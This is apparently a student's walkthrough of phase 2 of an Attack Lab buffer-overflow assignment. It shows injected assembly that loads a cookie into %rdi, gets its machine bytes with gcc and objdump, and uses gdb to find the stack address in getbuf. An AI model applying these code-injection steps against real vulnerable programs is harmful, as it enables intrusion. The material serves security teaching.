 similar to phase 1, but according to instruction pdf, it says, "recall that the first argument to a function is passed in the register %rdi"

we have to modify the %rdi register to store our cookie in there. thus, we need to write some assembly code for that task. cookie can be found from result of phase 1. 

create a file called phase2.s and write the code below,

phase2.s 
```
movq $0x117fd061, %rdi
retq
```

we need byte representation of code we wrote above, compile it with gcc then dissasemble it, use these commands

linux> gcc -c phase2.s
linux> objdump -d phase2.o > phase2.d

or in one line

linux> gcc -c phase2.s; objdump -d phase2.o > phase2.d 


if we open the file phase2.d we should get something like below

phase2.d
```
phase2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 61 d0 7f 11 	mov    $0x117fd061,%rdi
   7:	c3                   	retq   

```

the byte representation of the assembly code is 48 c7 c7 61 d0 7f 11 c3, 
now we need to find the address of rsp register using commands

gdb> gdb ctarget
gdb> b getbuf
gdb> r -q
gdb> n
gdb> p $rsp

looks something like this... 

(gdb) b getbuf
Breakpoint 1 at 0x40194d: file buf.c, line 12.
(gdb) r -q
Starting program: /home/2018080106/ctarget -q
Cookie: 0x117fd061

Breakpoint 1, getbuf () at buf.c:12
12      buf.c: Permission denied.
(gdb) n
14      in buf.c
(gdb) p $rsp
$1 = (void *) 0x55612538
